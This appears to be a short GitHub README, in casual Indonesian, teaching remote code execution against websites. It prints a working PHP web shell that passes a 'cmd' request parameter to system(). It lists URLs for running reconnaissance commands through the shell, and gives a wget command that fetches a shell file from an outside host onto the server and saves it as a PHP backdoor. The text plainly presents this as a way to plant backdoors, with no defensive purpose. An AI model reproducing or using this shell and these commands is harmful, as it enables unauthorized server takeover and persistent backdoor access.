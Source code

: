 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png">

Basic For Remote Code Execution ( Critical )

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=id
```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v

